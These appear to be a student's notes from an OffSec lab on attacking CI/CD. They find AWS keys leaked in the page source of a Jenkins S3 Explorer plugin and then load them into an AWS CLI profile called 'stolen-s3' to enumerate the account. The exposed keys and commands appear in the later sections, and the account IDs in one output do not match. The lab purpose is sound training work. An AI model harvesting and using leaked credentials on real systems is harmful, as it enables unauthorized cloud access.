 Find the link to _create an account_

### Exploiting Jenkins 

Click _create an account_ and login to Jenkins. 

Click around to see what permissions we have. 

Navigate to _Dashboard_
![Figure 31: Navigate to Dashboard](https://static.offsec.com/offsec-courses/PEN-200/images/attacking_cicd_3/ec684e2f114f48377e3bd975f6872adf-aacicd3_nav_to_dash.png)

Click on _company-dir_
![Figure 32: Company Directory](https://static.offsec.com/offsec-courses/PEN-200/images/attacking_cicd_3/7767099151cb76efa3c13ba6dbddb923-aacicd3_find_s3_explorer.png)
- S3 Explorer isn't default Jenkins plugin 
- Googling this **S3 Explorer Jenkins Plugin** and discover it has a vulnerability that app has unmasked AWS secrets
![Figure 33: Warning on Plugin Homepage](https://static.offsec.com/offsec-courses/PEN-200/images/attacking_cicd_3/85eee7b9e0130c4dac1639b2d5875ae5-aacicd3_jenkins_plugin_warning.png)

Click on the _S3 Explorer_ option in Jenkins and search for the ID and key
![Figure 34: Navigating to S3 Explorer](https://static.offsec.com/offsec-courses/PEN-200/images/attacking_cicd_3/f1150609367e53178776a05b6d943d20-aacicd3_nav_to_s3.png)
No keys. but let's view page source.
![Figure 35: View Source on S3 Explorer](https://static.offsec.com/offsec-courses/PEN-200/images/attacking_cicd_3/9abbb117c34f8fa4a87c71f5b25096cb-aacicd3_view_source_s3_explore.png)

Here we see HTMNL of page and the AWS creds
```hlt:awsid,awskey,awsregion
...<div id="page-wrapper" ng-controller="SettingsController"></div></div><input id="awsregion" type="hidden" value="us-east-1"><input id="awsid" type="hidden" value="AKIAUBHUBEGIMWGUDSWQ"><input id="awskey" type="hidden" value="e7pRWvsGgTyB8UHNXilvCZdC9xZPA8oF3KtUwaJ5"><input id="bucket" type="hidden" value="company-directory-9b58rezp3vvkf90f"></div></div><footer class="page-footer"><div class="container-fluid"><div class="page-footer__flex-row"><div class="page-footer__footer-id-placeholder" id="footer"></div><div class="page-footer__links page-footer__links--white jenkins_ver"><a rel="noopener noreferrer" href="https://www.jenkins.io/" target="_blank">Jenkins 2.385</a></div></div></div></footer></body></html><script src="http://automation.offseclab.io/plugin/s3explorer/js/s3explorer.js"></script>
```

### Enumerating with Discovered Creds

Configuring stolen-s3 AWS S3 Profile
```
kali@kali:~$ aws configure --profile=stolen-s3
AWS Access Key ID [None]: AKIAUBHUBEGIMWGUDSWQ
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]: 
```

Getting the Account ID and User Name
```hlt:4,s3_explorer
kali@kali:~$ aws --profile=stolen-s3 sts get-caller-identity
{
    "UserId": "AIDAUBHUBEGIFYDAVQPLB",
    "Account": "347537569308",
    "Arn": "arn:aws:iam::277537169808:user/s3_explorer"
}
```
